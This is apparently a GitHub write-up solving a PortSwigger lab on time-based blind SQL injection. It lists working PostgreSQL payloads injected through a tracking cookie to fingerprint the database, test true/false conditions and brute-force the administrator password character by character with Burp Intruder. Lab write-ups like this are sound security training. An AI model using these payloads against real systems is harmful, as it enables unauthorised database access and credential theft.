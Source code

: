  Blind SQL injection with time delays and information retrieval
 
[LAB](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
 

 #### again focus in " TRACKID " and we will cause SQLi through it

 #### need cause SQLi to delay 10 second for web application

 * 1 - first we need to pay attention to find what database payload right for us to use, so take a test and wait for the response
 -> 1 sec not the right one
 -> when 10 sec it is the right one
 

```

'|| (SELECT SLEEP(10) ) || --

```

-> 200 OK 1 sec > not  MySQL

```

' || ( SELECT pg_sleep(10)) || '--

```

-> 200 OK 10 sec > PostgreSQL

* you will know if it was vulnerable when the response takes 10 sec.
  
Next we confirm the database is " PostgreSQL "
-----------------------------------------------


 i dont want to take a look if the users table exists or not because i already know,
 from the lab no need to watse time for someting we know,
 now we have a mission to log in as administrator so lets do it.
 * 2 - ask the applcation TRUE or FALSE question :
 
 ```

 ' || ( SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END ) || '

```


 --> if its TRUE the response will takes 10 sec .

 ```
 
 ' || ( SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(0) END ) || '

```


 --> if its FALSE takes only 1 sec to responce .
 

## i alos know that administrator is exists lets look for the password .

3 - Enumerate administrator password length :

i prefer to use intruder more easy,

```

' || ( SELECT CASE WHEN (username='administrator' AND LENGTH (password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users ) || '--

```

### First
 
 ![image](https://github.com/Renat9s/sqli-labs/assets/126417250/d7863317-981f-4e55-b490-8cdcee9748f0)

 ### Then chose the numbers
 ![image](https://github.com/Renat9s/sqli-labs/assets/126417250/87ae4d8b-d5a5-4300-b06c-c209ec813503)

 And time to start attack .
 * dont forget to click on Columns and chose Response received, At the top of the page, in intruder. to see the time.

 ![image](https://github.com/Renat9s/sqli-labs/assets/126417250/70099fc7-e820-454d-af88-918b94380e36)

 
-- > length 20 has 10 second response time
it means the length of password only 20 

4- Now for bruteforse i use antruder also :

```

' || ( SELECT CASE WHEN (username='administrator' AND SUBSTRING (password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users ) || '--

```


### Now lets set up the payload 
   first step :
   
![image](https://github.com/Renat9s/sqli-labs/assets/126417250/c82f6ce3-badf-46d9-bd5d-e2484434dccc)
   

   Second :

![image](https://github.com/Renat9s/sqli-labs/assets/126417250/ab65ffbf-8a1f-4fa6-865e-02265f623e63)




  Third :
![image](https://github.com/Renat9s/sqli-labs/assets/126417250/a17eefb6-f4f1-4b66-8ea5-a3e59b640268)

Start attack :)

And we found it.

``` pb79orh8jdlag87uqt4d ```

SOLVED THE LAB <3

